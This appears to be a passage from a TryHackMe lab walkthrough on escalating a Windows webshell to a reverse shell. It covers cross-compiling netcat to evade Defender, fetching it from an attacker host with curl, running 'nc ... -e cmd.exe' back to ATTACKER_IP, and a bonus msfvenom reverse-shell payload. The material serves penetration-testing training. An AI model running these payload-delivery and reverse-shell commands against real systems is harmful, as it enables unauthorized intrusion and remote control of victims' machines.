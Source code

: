 Our webshell is all well and good, but let's go for a full reverse shell!

Unfortunately, we have a problem. Unlike in Linux where there are usually many ways to obtain a reverse shell, the options in Windows are a lot fewer in number as Windows tends not to have many scripting languages installed by default.

Realistically we have several options here:

- Powershell tends to be the go-to for Windows reverse shells. Unfortunately Defender knows exactly what PowerShell reverse shells look like, so we'd have to do some serious obfuscation to get this to work.
- We could try to get a PHP reverse shell as we know the target has a PHP interpreter installed. Windows PHP reverse shells tend to be iffy though, and again, may trigger Defender.
- We could generate an executable reverse shell using msfvenom, then upload and activate it using the webshell. Again, msfvenom shells tend to be very distinctive. We could use the [Veil Framework](https://www.veil-framework.com/) to give us a meterpreter shell executable that might bypass Defender, but let's try to keep this manual for the time. Equally, [shellter](https://www.shellterproject.com/) (though old) might give us what we need. There are easier options though.
- We could upload netcat. This is the quick and easy option.

The only problem with uploading netcat is that there are hundreds of different variants -- the version of netcat for Windows that comes with Kali is known to Defender, so we're going to need a different version. Fortunately there are many floating around! Let's use one from github, [here](https://github.com/int0x33/nc.exe/).

Clone the repository:  
`git clone https://github.com/int0x33/nc.exe/`  

This repository already contains pre-compiled netcat binaries for both 32 and 64 bit systems, however, this is an ideal time to talk about cross-compilation techniques. If you'd prefer to just use the default binaries then just skip to the last section of this task and use the `nc64.exe` binary from the repository.

---

Cross compilation is an essential skill -- although in many ways it's preferable to avoid it.

First up: what is cross compilation? The idea is to compile source code into a working program to run on a different platform. In other words, cross compilation would allow us to compile a program for a different Linux kernel, a Windows program on Kali (as we're doing here), or even software for an embedded device or phone.

Whilst cross-compilation is a very useful skill to have, it's often difficult to get completely correct. Ideally we should always try to compile our code in an environment as close to the target environment as possible. For example, if an exploit or program is designed to work on CentOS 7.2, we should try to compile it in a CentOS 7.2 VM if possible. Equally, it's essential that we get the same arch as that of the target -- a 64 bit program won't work very well on a 32 bit target!

Sometimes it's easiest to just cross-compile, however. Generally speaking we cross compile x64 Windows programs on Kali using the `mingw-w64` package (for x64 systems). This is not installed on Kali by default, however it is available in the Kali apt repositories:  
`sudo apt install mingw-w64`  

This is a big package, but once it's installed we can start re-compiling netcat.

Much like we use `gcc` to compile binaries on Linux, we can use the `mingw` compilers to compile Windows binaries. These tend to have very descriptive (read: long) names, but the one that's of particular importance to us here is `x86_64-w64-mingw32-gcc`. This specifies that we want to compile a 64bit binary.  

Inside the nc.exe repository we downloaded, delete or move the two pre-compiled netcat binaries. The repository provides a makefile which we can use (with some small alterations) to compile the binary. Open up the `Makefile` with your favourite text editor. The first two lines specify which compiler to use:  
![The first two lines of the Makefile at their default](https://assets.tryhackme.com/additional/wreath-network/499921a44689.png)

Neither of these are quite what we're looking for, so comment out the first line and add another line underneath:  
`CC=x86_64-w64-mingw32-gcc`  
![The first (now three) lines of the makefile after commenting out the first line and adding in the correct compiler on line three](https://assets.tryhackme.com/additional/wreath-network/d71f7f2fcb0e.png)  

Now when we run `make` to build the binary, the correct compiler will be used to generate a x64 Windows executable. Note that there will be a lot of warnings generated by the compiler (these have been redirected to `/dev/null` in the following screenshot for readability, however, you do not need to do this). These are nothing to worry about; the compilation should still be successful.  
![Demonstrating the compilation process using the make command](https://assets.tryhackme.com/additional/wreath-network/b29a99fd33fd.png)  

Answer the questions below

**Bonus Question (optional):** Follow the steps detailed above to compile a copy of netcat.exe (otherwise use the copy already in the repo).  

With a copy of netcat available, we now need to get it up to the target.

Start a Python webserver on your attacking machine (as demonstrated numerous times previously):  
`sudo python3 -m http.server 80   `

Despite it often being much harder to upload binaries to Windows than it is to upload to Linux, we do have a few options here.

- Powershell _might_ work, but with AMSI in play it's a risk.
- We could use the file upload point that we originally exploited to upload an unrestricted PHP file uploader (in the same way that we uploaded the original webshell, although this would be a bit of a pain with embedding the uploader in an image).
- We could look for other command line tools installed on the target such as `curl.exe` or `certutil.exe`, both of which might allow for a file upload.

Try to execute both of this in the webshell -- both should work.

What output do you get when running the command: `certutil.exe`?  

Certutil is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

Instead we'll stick with trusty old cURL.

Use cURL to upload your new copy of netcat to the target:  
`curl http://ATTACKER_IP/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe   `

Note the double backslashes used here. This is purely due to how the webshell handles backslashes. We need to escape the backslashes so that they are passed in as a part of the command, as opposed to escaping the letters immediately after them.  

We now have everything we need to get a reverse shell back from this target.

Set up a netcat listener on your attacking machine, then, in your webshell, use the following command:  
`powershell.exe c:\\windows\\temp\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe   `

e.g.  
`powershell.exe c:\\windows\\temp\\nc-MuirlandOracle.exe 10.50.73.2 443 -e cmd.exe   `

This should result in a reverse shell from the target!  
![Confirmation of a reverse shell being received](https://assets.tryhackme.com/additional/wreath-network/ac7e2a438cd5.png)  

_**Note:** In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early._

**Bonus Question (optional):** Try generating a metasploit reverse shell and transfer it to the target (`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ATTACKING_IP LPORT=CHOOSE_A_PORT`) -- make sure to place it in a directory you can list (e.g. the Uploads directory of the webserver). This shell will get picked up by Defender (so don't do it anywhere else!), but it will give you a feel for how antivirus operates when it detects your payload as being malicious.

You should get an error message when trying to execute the executable and the exe will also disappear from the current directory (placed into quarantine by the AV). At this point the Administrator has also been alerted, along with the security team in a bigger organisation.

